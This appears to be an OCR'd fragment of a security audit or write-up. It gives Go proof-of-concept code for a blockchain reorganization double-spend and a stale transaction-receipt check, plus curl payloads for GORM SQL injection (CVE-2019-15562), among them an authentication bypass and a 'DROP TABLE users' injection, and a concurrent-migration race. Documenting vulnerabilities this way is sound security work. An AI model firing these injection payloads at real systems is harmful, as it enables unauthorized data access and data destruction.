 ```go
// POC: Simulate chain reorganization attack
func SimulateReorgAttack() {
    // Step 1: Create competing fork with higher total difficulty
    fork := createAlternateFork(blockchain.CurrentBlock())
    
    // Step 2: Mine blocks privately (withholding attack)
    withheldBlocks := []Block{}
    for i := 0; i < 7; i++ { // 7-block reorg (above safety threshold)
        block := mineBlock(fork)
        withheldBlocks = append(withheldBlocks, block)
        fork = block
    }
    
    // Step 3: Release blocks simultaneously to trigger reorg
    for _, block := range withheldBlocks {
        blockchain.ProcessBlock(block) // Forces chain reorganization
    }
    
    // Result: Transactions from original chain are reversed
    // Exploitation: Double-spend confirmed transactions
}

// POC: Exploit transaction receipt caching
func ExploitReceiptCaching(txHash string) {
    // Transaction initially confirmed on original chain
    receipt1 := ethClient.TransactionReceipt(txHash)
    fmt.Printf("Original receipt: Block %d\n", receipt1.BlockNumber)
    
    // After reorganization, same API call returns stale data
    triggerReorganization()
    receipt2 := ethClient.TransactionReceipt(txHash)
    fmt.Printf("After reorg: Block %d (stale)\n", receipt2.BlockNumber)
    
    // Vulnerability: Receipt shows transaction as confirmed when it was reorganized out
}
```

### ORM Auto-Migration Exploitation PoC

```bash
# POC 1: GORM SQL injection (CVE-2019-15562)
curl "http://localhost:8080/user?id=1))%20OR%201=1--"
# Payload: 1)) OR 1=1--
# Result: Bypasses authentication, returns all users

# POC 2: Order by SQL injection
curl "http://localhost:8080/users?orderBy=id;%20DROP%20TABLE%20users;--&direction=asc"
# Payload: id; DROP TABLE users;--
# Result: Database table deletion

# POC 3: Concurrent migration race condition
for i in {1..10}; do
    curl -X POST "http://localhost:8080/migrate" &
done
# Result: "table already exists" errors, partial migration state
```
